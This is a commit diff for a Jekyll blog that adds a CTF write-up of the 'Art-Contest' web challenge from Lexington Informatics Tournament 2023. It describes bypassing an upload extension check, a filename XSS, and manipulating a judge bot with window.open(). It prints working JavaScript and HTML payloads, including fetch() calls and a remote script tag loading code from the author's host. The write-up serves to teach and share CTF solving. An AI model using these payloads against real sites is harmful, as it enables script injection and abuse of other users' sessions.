

Before and after one commit to Finneyyy/ECSCIreland.github.io, a Jekyll site: the page built from _posts/2023-8-8-Lexington_Informatics_Tournament_CTF_23.md, in a window 1280 px wide and 1400 px high, scrolled down 16221 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; before the commit the page ends 16750 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update 2023-8-8-Lexington_Informatics_Tournament_CTF_23.md

````diff
--- a/_posts/2023-8-8-Lexington_Informatics_Tournament_CTF_23.md
+++ b/_posts/2023-8-8-Lexington_Informatics_Tournament_CTF_23.md
@@ -1,3 +1,4 @@
+
 ---
 layout: post
 title: Lexington Informatics Tournament CTF 2023
@@ -541,3 +542,80 @@ while True:
 	pos+=1
 ```
 Thankfully the flag wasn't too long: `LITCTF{c4refu1_fr}`
+
+## Art-Contest
+This challenge had a lot of steps and in the end was only solved by 7 teams.
+
+### The Goal
+When doing web challenges, I'll usually work backwards by first figuring out where the flag is stored and then seeing what functionality can be used to reach that target. In this case, if the `/judge` endpoint is called with a valid ID and the bot subsequently opens the status page for the ID and it contains "winner!!" in its text, it will replace the content of the status file with the flag. We can then visit the status page and retrieve the flag. It seems as though we will need to confuse the judge bot into thinking our page contains the aforementioned text.
+
+### XSS via file upload bypass
+It is possible to upload any file which has either an extension of "txt" or no extension at all. To check the extension, the following code is used:
+`ext = os.path.splitext(abs_path)[1]`
+This is not a secure means of validating a file extension and we can get XSS by uploading a file with a name such as `...html` to the `/upload` endpoint.
+We tried a number of directory traversal tricks here but didn't find anything of use aside from the XSS.
+This XSS is useful because the judge bot will visit this file before checking the page status. We can use this to manipulate the bot so that its next request to check the status will contain `winner!!`. But how?
+### Polluting context.pages
+We can see the following code defines `status_page`:
+`status_page = context.pages[1]`
+In order to get the flag, we must see `winner!!` in the `status_page.content()` method call. We noticed that using the previous XSS to call `window.open()` does just that. It will add an additional page to the `context.pages` list and it happens to be located at `context.pages[1]`in the list!
+A little known fact is that you can actually modify the content of a `window.open()` using code such as:
+```js
+var my = window.open('/x' + e, '_blank' ,"height=600, width=600");
+
+my.onload = function () {
+ my.document.body.innerHTML = "winner!!";
+};
+```
+
+This would be pass the check for content containing `winner!!` but we must also allow for the `status_page.url ==  "http://localhost:5000/status/" + id` check.
+Herein lies a small issue; we don't know the value for the `id` variable!
+This isn't actually such a big problem, we can just upload a separate file and save its ID. Then we have a valid ID to reference. I decided to host this on my server and use a `fetch()` to pull its value so I could easily change the ID if I needed:
+
+```js
+fetch("http://ireland.re/callback").then(r => {console.log(r.text().then(e => {
+
+var my = window.open('http://127.0.0.1:5000/status/' + e, '_blank' ,"height=600, width=600");
+
+my.onload = function () {
+ my.document.body.innerHTML = "winner!!";
+};
+```
+But we encounter another problem here. You can only edit the content of a window if it's within the same origin in which the javascript is executing. Our payload is running on the `file://` URI, which does not have authority over a `localhost` page.
+
+### XSS via filename
+Then I noticed that there is actually a second XSS, in the filename of the upload. We can pass the above script in here (where it will be able to modify the `window.open`).
+
+But it won't ever visit this page, right?
+
+Yes, it won't. But we can now just redirect from the `file://` page to this.
+
+### Final Approach
+
+We upload a file with the name `<script src='http://ireland.re/js'></script>` which has the following contents:
+```js
+fetch("http://ireland.re/callback").then(r => {console.log(r.text().then(e => {
+
+var my = window.open('http://127.0.0.1:5000/status/' + e, '_blank' ,"height=600, width=600");
+
+my.onload = function () {
+ my.document.body.innerHTML = "winner!!";
+};
+```
+We save the ID of the uploaded file.
+
+Then, we upload a file with the following contents:
+
+We first upload a file names `...html` with the following contents:
+```html
+<script>
+window.location.href = "http://127.0.0.1:5000/status/<id>";
+</script>
+```
+We can substitute the ID in above, for `<id>` and it will redirect to the page containing our payload.
+We will need to first submit the original file for judging, so its status page is populated with our XSS payload. Then, we can submit the previously uploaded file for judging.
+It will visit our `file://` XSS which will redirect it to our status page containing another XSS, use `window.open()` to pollute the page context and modify it to contain `winner!!` with the correct origin. Then, we simply visit the status page to retrieve the flag!
+
+### Credits
+Thanks to all members of Ireland Without the RE who helped with this. It was a fun challenge!
+-m0z
````
